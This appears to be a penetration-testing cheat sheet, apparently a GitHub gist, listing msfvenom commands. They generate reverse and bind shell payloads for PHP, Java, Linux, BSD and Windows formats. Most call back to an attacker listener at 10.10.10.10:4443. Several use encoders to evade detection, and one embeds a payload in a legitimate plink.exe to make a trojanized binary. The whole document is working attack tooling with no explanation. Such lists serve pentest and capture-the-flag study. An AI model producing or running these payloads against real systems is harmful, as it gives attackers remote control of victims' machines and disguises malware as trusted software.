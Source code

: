 #windows
### PHP reverse shell

`msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#java-war-reverse-shell)Java WAR reverse shell

`msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#linux-bind-shell)Linux bind shell

`msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#linux-freebsd-reverse-shell)Linux FreeBSD reverse shell

`msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#linux-c-reverse-shell)Linux C reverse shell

`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-non-staged-reverse-shell)Windows non staged reverse shell

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-staged-meterpreter-reverse-shell)Windows Staged (Meterpreter) reverse shell

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-python-reverse-shell)Windows Python reverse shell

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-asp-reverse-shell)Windows ASP reverse shell

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-aspx-reverse-shell)Windows ASPX reverse shell

`msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-javascript-reverse-shell-with-nops)Windows JavaScript reverse shell with nops

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-powershell-reverse-shell)Windows Powershell reverse shell

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-reverse-shell-excluding-bad-characters)Windows reverse shell excluding bad characters

`msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-x64-bit-reverse-shell)Windows x64 bit reverse shell

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe`

### [](https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1#windows-reverse-shell-embedded-into-plink)Windows reverse shell embedded into plink

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe`